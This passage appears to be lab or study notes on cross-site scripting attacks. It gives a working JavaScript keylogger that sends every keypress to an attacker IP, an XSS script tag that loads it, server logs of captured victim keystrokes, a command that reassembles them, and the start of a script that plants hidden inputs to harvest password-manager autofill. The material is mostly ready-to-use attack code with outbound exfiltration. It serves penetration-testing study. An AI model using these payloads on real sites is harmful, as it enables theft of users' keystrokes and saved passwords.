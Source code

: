 ## Keylogging

Keylogging is useful when our target is the user rather than the application, but it is limited in the sense that only the current user tab is logged. The JavaScript event for keypresses is `keydown`, which need to be passed into the `addEventListener` function which also accepts a callback function to run for each keydown event.

{% code title="xssKeylogger.js" %}
```javascript
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key)
}

// for each keypress, execute the callback function
document.addEventListener('keydown', logKey);
```
{% endcode %}

```javascript
// XSS payload
<script src='http://192.168.45.214/xssKeylogger.js'></script>
```

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.45.214 - - [06/Aug/2024 06:37:32] "GET /xssKeylogger.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 06:37:36] "GET /xssKeylogger.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key=I HTTP/1.1" 404 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key=f HTTP/1.1" 404 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key= HTTP/1.1" 404 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key=I HTTP/1.1" 404 -
<SNIP>

# extract the keystrokes
$ grep 'key' keylogger_output.txt | awk -F'=' '{print $2}' | grep -o '^[a-zA-Z0-9{}]' | tr -d '\n'
IfItypealotonmykeyboardRyuggythinksImworkinghardOS{<SNIP>}
```
{% endcode %}

## Stealing Saved Passwords

If a password manager application autofills any login form, this information can be extracted via XSS. Password managers search for combination of a `username` or `email` input and an input that has `type` attribute set to `password`.

{% code title="xssSavedPasswords.js" %}
```javascript
// save the body of the document into a var
let body = document.getElementsByTagName("body")[0]

// create the username element
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

// create the password element
var p = document.createElement("input");
p.type = "password";
u.style.position = "fixed";
```
